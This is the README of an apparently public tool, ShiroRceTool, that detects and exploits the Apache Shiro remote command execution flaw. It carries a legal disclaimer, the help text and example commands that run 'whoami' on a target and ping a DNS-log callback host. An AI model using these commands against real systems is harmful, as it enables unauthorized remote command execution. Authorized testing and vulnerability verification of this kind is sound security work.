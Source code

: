 # ShiroRceTool
Simple checker and exploit for Shiro RCE. (一个简单的Shiro RCE检测和利用脚本。)

## 声明 WARNING
* 仅供安全人员验证,测试是否存在此漏洞。  
* It is only for security researcher to verify and test whether this vulnerability exists.  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm) 以及当地的法律，勿用于非授权的测试，本人不负任何连带法律责任。**  
* Users must obey [the Cybersecurity Law of the People's Republic of China](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm)  and local laws.

## 使用方法 Usage

```bash
# USE PYTHON3
$python ShiroRceTool.py -h
 ____  _     _           ____         _____           _     
/ ___|| |__ (_)_ __ ___ |  _ \ ___ __|_   _|__   ___ | |
\___ \| '_ \| | '__/ _ \| |_) / __/ _ \| |/ _ \ / _ \| |
 ___) | | | | | | | (_) |  _ < (_|  __/| | (_) | (_) | |
|____/|_| |_|_|_|  \___/|_| \_\___\___||_|\___/ \___/|_|
                        
                        By: Hack3rHan

usage: ShiroRceTool.py [-h] [-m MODE] [-u URL] [-c CMD] [-e]

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  exploit or check
  -u URL, --url URL     URL of the target.
  -c CMD, --cmd CMD     Command to execute.
  -e, --echo            Echo Command.
```

## 示例 Example

```
# Check
python ShiroRceTool.py -m check -u "http://example.com"
# Exec cmd with echo
python ShiroRceTool.py -m exploit -u "http://example.com" -c "whoami" -e
# Exec cmd with no echo
python ShiroRceTool.py -m exploit -u "http://example.com" -c "ping dnslog.example.com"
```

